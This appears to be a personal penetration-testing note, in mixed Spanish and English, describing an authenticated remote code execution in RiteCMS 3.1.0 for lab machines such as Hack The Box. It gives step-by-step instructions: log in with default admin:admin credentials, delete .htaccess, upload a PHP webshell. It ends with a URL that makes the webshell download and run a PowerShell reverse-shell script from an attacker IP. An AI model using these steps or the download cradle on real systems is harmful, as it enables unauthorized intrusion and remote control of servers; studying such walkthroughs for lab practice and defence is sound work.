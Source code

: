 
## DESCRIPTION

RiteCMS version 3.1.0 and below suffers from a remote code execution in admin panel. An authenticated attacker can upload a php file and bypass the .htacess configuration that deny execution of .php files in media and files directory by default.

CREDENCIALES POR DEFECTO (admin.php): ADMIN ADMIN

#### Mas información
* https://www.exploit-db.com/exploits/50616


## EXPLOITATION

Existen muchas opciones disponible

### OPTION 1: Delete the .htaccess file in the media and files directory through the files manager module and then upload the php file - RCE achieved

1. Encontramos el CMS:
![[Pasted image 20230419210201.png]]

2.  Hacemos login en `URL/cms/admin.php` con las credenciales por defecto `admin:admin`

3. Creamos una webshell en php.

4. Eliminamos el fichero .htaccess del directorio files o media 

5. Subimos la webshell

![[Pasted image 20230419210330.png]]

![[Pasted image 20230419210342.png]]

**!!NOTA IMPORTANTE!!** 
* Cuidado por si ha cambiado el enlace por defecto
Pero si le damos al enlace, nos da un Not Found:
![[Pasted image 20230419210420.png]]

6. Buscamos la web con nuestra reverse shell y ejecutamos comandos:

![[Pasted image 20230419210532.png]]
7. Podemos utilizar Invoke-Powershell para construir una reverse shell.

```
 http://192.168.169.249:8000/cms/media/shell.php?cmd=cmd%20/c%20powershell%20-c%20IEX%20(New-Object%20Net.Webclient).downloadstring(%27http://192.168.119.169:8000/Invoke-PowerShellTcp.ps1%27)%22
```
## MACHINES

* Hack The Box: 


